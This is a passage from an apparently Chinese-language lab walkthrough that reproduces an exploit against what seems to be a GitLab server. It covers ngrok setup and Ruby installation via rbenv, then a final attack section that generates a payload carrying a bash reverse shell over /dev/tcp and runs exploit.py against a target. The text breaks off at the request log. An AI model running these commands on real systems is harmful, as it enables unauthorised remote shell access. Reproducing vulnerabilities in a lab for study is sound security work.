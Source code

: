 首先到ngrok官网进行注册  
https://dashboard.ngrok.com/signup  
，注册好后到下面这个页面根据提示进行下载安装即可：  
  
![](https://mmbiz.qpic.cn/mmbiz_png/CFEQEjGaicCNtyJmLOHDMZcrfrTvtfsKcttIuM5fYUmPaQZwg7cxwpwVTClFJuByLzmStAmGEmnbseR0A8XRqqQ/640?wx_fmt=png&from=appmsg "")  
  
安装完获取自己的Authtoken，就可以启动了：  
```
ngrok config add-authtoken $YOUR_AUTHTOKEN
ngrok http 10.211.55.3:5000
```  
  
![](https://mmbiz.qpic.cn/mmbiz_png/CFEQEjGaicCNtyJmLOHDMZcrfrTvtfsKcMA1UtPKmqZfFzg9sSMicO8ZGsH0HZrGgRue9rlJsBEzkQnCr3lhQCzA/640?wx_fmt=png&from=appmsg "")  
##### 2.安装ruby  
  
我这里采用rbenv安装指定版本ruby，因为最新版本运行脚本会报错（狗头）  
```
//下载rbenv工具
git clone https://github.com/rbenv/rbenv.git ~/.rbenv  

//将 rbenv 添加到环境变量
echo 'export PATH="$HOME/.rbenv/bin:$PATH"' >> ~/.bashrc
echo 'eval "$(rbenv init -)"' >> ~/.bashrc
source ~/.bashrc

//安装 ruby-build 工具，可用它来安装指定版本ruby
git clone https://github.com/rbenv/ruby-build.git ~/.rbenv/plugins/ruby-build

//测试了2.7.5和3.0.0版本均能复现成功
rbenv install 3.0.0

//设置为全局版本
rbenv global 3.0.0

//安装redis
gem install redis
```  
#### 进行攻击  
```
//生成payload
ruby payload_gen.rb 'bash -c "bash -i >& /dev/tcp/10.211.55.3/6789 0>&1"'

//修改server.py，填入payload和ngrok地址即可
vim servery.py

//运行exploit.py
python3 exploit.py -a gitlab_token -u ngrok_url -t http://10.211.55.5
```  
  
![](https://mmbiz.qpic.cn/mmbiz_png/CFEQEjGaicCNtyJmLOHDMZcrfrTvtfsKcHHMVNBT9fVAnTHic7Xia01AkxqAyliaRibZzicy44oUMX5MbnyysBqqjmrg/640?wx_fmt=png&from=appmsg "")  
  
ngrok收到请求：  
  